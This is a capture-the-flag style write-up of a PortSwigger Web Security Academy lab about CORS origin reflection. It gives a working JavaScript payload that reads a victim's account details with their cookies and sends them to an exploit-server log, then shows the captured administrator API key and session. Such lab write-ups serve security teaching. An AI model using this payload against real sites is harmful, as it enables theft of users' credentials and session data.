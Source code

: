 # Lab: CORS vulnerability with basic origin reflection

> Lab Objective: craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server.

- Login using provided credentials `wiener:peter`.

- Inspect Login Requests, you'll notice that there is a request made to `/accountDetails`, that returns user details within the response in JSON format.
  ![1st screenshot](./attachments/1.png)

- Inspect that request, and you'll find that:

  - it employs `Access-Control-Allow-Credentials: true` header, therefore the Cookies must sent via the request in order to access that details.

  - Add `Origin: https://attacker.com` to request headers, you'll notice that it's reflected within the response headers.
    ![2nd screenshot](./attachments/2.png)

- Use this payload to exploit this vulnerability, but try it in Burp Browser.

```html
<html>
  <body>
    <script>
      var req = new XMLHttpRequest();
      url = "https://0a8b00740449041e809503f8005200ac.web-security-academy.net";
      req.onload = reqListener;
      req.open("get", url + "/accountDetails", true);
      req.withCredentials = true;
      req.send();

      function reqListener() {
        location = "/log?key=" + this.responseText;
      }
    </script>
  </body>
</html>
```

- Deliver the exploit to victim then Access Log to review the request.

```http
GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%227qDmnkqZ1hikPxuVPJKib8wCX9KZaaZS%22,%20%20%22sessions%22:%20[%20%20%20%20%22qaLfRf8XkEmzOPNwBMPRlZ6Yy6uj4fMP%22%20%20]} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
```

- Extract API Key: `7qDmnkqZ1hikPxuVPJKib8wCX9KZaaZS`

- Then the lab is solved successfully.
  ![3rd screenshot](./attachments/3.png)

---